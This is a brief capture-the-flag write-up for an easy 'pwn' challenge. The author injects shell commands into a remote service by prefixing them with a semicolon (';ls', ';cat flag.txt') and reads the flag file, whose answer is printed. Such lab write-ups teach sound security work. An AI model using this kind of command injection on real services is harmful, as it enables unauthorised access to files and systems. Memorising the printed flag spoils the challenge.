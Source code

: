 # EZ CTF

## Pwn

### Mario bros!

**Difficulty:** Easy

**Statement:** Read the flag!  

***

For this challenge, you need to connect to the remote server on port 7777.

Once connected, we are on a bash shell with the return: `Are you root?`

Sending a single value or command closes the shell and the connection to the server.

So I'm just trying to add a `;` to inject a command: `;ls`

```
entrypoint.sh
flag.txt
pwn.sh
ucspi-tcp-0.88
ucspi-tcp-0.88.errno.patch
ucspi-tcp-0.88.tar.gz
```

I just have to read the content of the file **flag.txt**: `;cat flag.txt`

```
EZ-CTF{UNSECUR3_B4SH}
```

Flag: EZ-CTF{UNSECUR3_B4SH}
